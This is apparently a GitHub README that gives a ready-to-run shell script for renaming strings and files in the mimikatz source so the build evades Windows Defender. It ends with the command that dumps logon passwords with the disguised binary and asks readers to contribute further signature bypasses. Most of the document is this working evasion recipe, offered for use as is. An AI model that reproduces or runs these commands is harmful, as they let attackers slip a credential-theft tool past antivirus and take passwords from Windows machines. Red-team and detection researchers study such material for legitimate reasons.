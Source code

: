 # Simple Mimikatz "Obfuscator"

### **Tested in**
**Defender**: Security Intelligence (yeah...) Version **1.299.356.0**
**Windows**: **1903** (OS Build **18362.239**)

## Description 
The following set of commands, will download the latest version of mimikatz and make a few changes to the source code, in order to bypass Defender. I **have only tested with logonpasswords** (**logonpassword** after the changes...). If you want other modules, i suppose that one more "sed" will do the job...

I do not really use to use mimikatz from an executable (i really prefer the "Cobalt Strike" way), but i was curious how difficult could be to bypass the Defender. 

## It is that difficult 

    git clone https://github.com/gentilkiwi/mimikatz.git windows
    mv windows/mimikatz windows/windows
    find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/gweep/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/@gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/notcommons/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DumpCreds/DumpCred/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/logonPasswords/logonPassword/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/ArgumentPtr/NotTodayPal/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' 
    
    
    
    find windows/ -type f -name '*mimikatz*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
    	mv "${FILE}" "${newfile}";
    done
    find windows/ -type f -name '*kiwi*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
    	mv "${FILE}" "${newfile}";
    done
    
    cd ./windows/windows/
    sed -i "0,/#if \!defined(_POWERKATZ)/! {0,/#if \!defined(_POWERKATZ)/ s/#if \!defined(_POWERKATZ)/\/*\r\n#if \!defined(_POWERKATZ)/}" windows.c
    sed -i "0,/#endif/! {0,/#endif/! {0,/#endif/ s/#endif/#endif\r\n*\//}}" windows.c

And probably not all of these are needed, but who cares.
## PoC
[https://www.youtube.com/watch?v=9AZqfepiAn4](https://www.youtube.com/watch?v=9AZqfepiAn4)
## How To

You can only invoke it with arguments:

> *windows.exe privilege::debug sekurlsa::**logonpassword***

## Commit

Although i targeted Defender, based on antiscan.me there is a **detection rate 9/26** . ~~I will try to bypass the 9 remaining~~  
If you find other signatures and you want to share, please feel free to commit.

## References

Of course all credits go to: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) 
This guy created this amazing tool and gave it to all of us. 

I stole a lot from the following articles:
[https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY](https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY)

[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0)



And i almost copied paste from the following:
[https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517](https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517)
thx JonnyBanana

Supper difficult ha?
